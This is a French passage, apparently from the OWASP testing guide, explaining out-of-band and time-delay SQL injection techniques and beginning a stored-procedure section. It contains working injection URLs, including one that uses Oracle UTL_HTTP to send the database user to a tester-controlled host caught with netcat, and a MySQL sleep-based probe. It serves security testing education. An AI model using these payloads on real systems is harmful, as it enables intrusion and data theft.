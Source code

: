 `SELECT * FROM products WHERE id_product=$id_product`

Considérez également la requête à un script qui exécute la requête ci-dessus :

`http://www.exemple.com/product.php?id=10`

La requête malveillante serait :

`http://www.exemple.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

Dans cet exemple, le testeur concatène la valeur 10 avec le résultat de la fonction `UTL_HTTP.request`. Cette fonction Oracle essaiera de se connecter à `testerserver` et fera une requête HTTP GET contenant le retour de la requête `SELECT user FROM DUAL`. Le testeur peut configurer un serveur Web (par exemple Apache) ou utiliser l'outil Netcat :

```bash
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Technique d'exploitation du délai

La technique d'exploitation du délai est très utile lorsque le testeur trouve une situation [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection), dans laquelle rien n'est connu sur le résultat d'une opération. Cette technique consiste à envoyer une requête injectée et dans le cas où la condition est vraie, le testeur peut surveiller le temps mis par le serveur pour répondre. S'il y a un délai, le testeur peut supposer que le résultat de la requête conditionnelle est vrai. Cette technique d'exploitation peut être différente d'un SGBD à l'autre (voir la section spécifique au SGBD).

Considérez la requête SQL suivante :

`SELECT * FROM products WHERE id_product=$id_product`

Considérez également la requête à un script qui exécute la requête ci-dessus :

`http://www.exemple.com/product.php?id=10`

La requête malveillante serait (par exemple MySql 5.x) :

`http://www.exemple.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

Dans cet exemple, le testeur vérifie si la version de MySql est 5.x ou non, obligeant le serveur à retarder la réponse de 10 secondes. Le testeur peut augmenter le temps de retard et surveiller les réponses. Le testeur n'a pas non plus besoin d'attendre la réponse. Parfois, il peut définir une valeur très élevée (par exemple 100) et annuler la demande après quelques secondes.

#### Injection de procédure stockée

Lors de l'utilisation de SQL dynamique dans une procédure stockée, l'application doit nettoyer correctement l'entrée de l'utilisateur pour éliminer le risque d'injection de code. S'il n'est pas nettoyé, l'utilisateur peut entrer du code SQL malveillant qui sera exécuté dans la procédure stockée.

Considérez la procédure stockée SQL Server suivante :
